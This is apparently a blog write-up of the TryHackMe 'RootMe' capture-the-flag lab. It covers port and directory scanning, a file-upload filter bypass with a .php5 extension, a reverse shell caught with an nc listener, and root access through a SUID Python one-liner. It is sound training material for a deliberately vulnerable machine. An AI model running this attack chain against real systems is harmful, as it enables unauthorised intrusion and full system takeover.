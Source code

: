 ```yaml
---
clayout: ctf
title: RootMe
type: TryHackMe
date: 2025-02-20
level: Easy
icon: /ctf/tryhackme/rootme/icon-room.png
image: /ctf/tryhackme/rootme/icon-room.png
description: A ctf for beginners, can you root me?
ctf-link: https://tryhackme.com/room/rrootme
---
```


## Challenge Description

A ctf for beginners, can you root me?

## Challenge Overview

RootMe is an introductory-level Linux machine on TryHackMe designed to help beginners practice fundamental penetration
testing skills. The challenge involves exploiting a vulnerable file upload functionality to gain initial access and then
leveraging a misconfigured SUID permission on the Python binary for privilege escalation to root.

## Enumeration

### Nmap Scan

We begin by scanning the target machine to identify open ports and services:

```bash
$ nmap -sC -sV -v -p- -oN rootme.nmap 10.10.180.4
Nmap scan report for 10.10.180.4
Host is up (0.027s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan reveals two open ports:

- **Port 22**: SSH service running OpenSSH 7.6p1
- **Port 80**: HTTP service running Apache 2.4.29

The presence of an HTTP service suggests a web application that may be vulnerable to exploitation.

### Web Enumeration

Navigating to `http://10.10.180.4/` displays the homepage of the web application:

![RootMe - Home Page](/ctf/tryhackme/rootme/home.png)

To discover hidden directories, we use Gobuster:

```bash
gobuster dir -w /usr/share/dirb/wordlists/common.txt -t 20 -x php,txt -u "http://10.10.180.4/" > rootme-gobuster.txt
```

The scan identifies two directories:

- `/panel/`: Potentially an administrative panel.
- `/uploads/`: Directory for uploaded files.

## Exploitation

### File Upload Vulnerability

Accessing the `/panel/` directory reveals a file upload functionality:

![RootMe - Panel Page](/ctf/tryhackme/rootme/panel.png)

Attempting to upload a PHP file results in an error:

![RootMe - Panel Error Message](/ctf/tryhackme/rootme/panel-error.png)

*Translation: "PHP is not allowed!"*

To bypass this restriction, we rename the file with a `.php5` extension and attempt the upload again:

![RootMe - Panel Success Message](/ctf/tryhackme/rootme/panel-success.png)

*Translation: "The file was uploaded successfully!"*

The file is now accessible in the `/uploads/` directory:

![RootMe - Uploaded File](/ctf/tryhackme/rootme/uploads.png)

### Gaining a Reverse Shell

To establish a reverse shell, we prepare a PHP reverse shell script (`exploit.php5`) with our IP and desired port.
Before executing the script, we set up a listener on our machine:

```bash
nc -lnvp 4444
```

Navigating to `http://10.10.180.4/uploads/exploit.php5` in the browser triggers the reverse shell, granting us access:

```bash
$ nc -lnvp 4444
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Post-Exploitation

### User Flag

To locate the user flag, we search for `user.txt`:

```bash
$ find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
```

Reading the file reveals:

```bash
$ cat /var/www/user.txt
THM{user_flag}
```

### Privilege Escalation

To escalate privileges, we search for files with the SUID bit set:

```bash
find / -type f -perm -u=s 2>/dev/null
```

The scan reveals that `/usr/bin/python` has the SUID bit set. According
to [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid), we can exploit this to gain root access:

```bash
$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

### Root Flag

With root privileges, we can now access the root flag:

```bash
$ cat /root/root.txt
THM{root_flag}
```
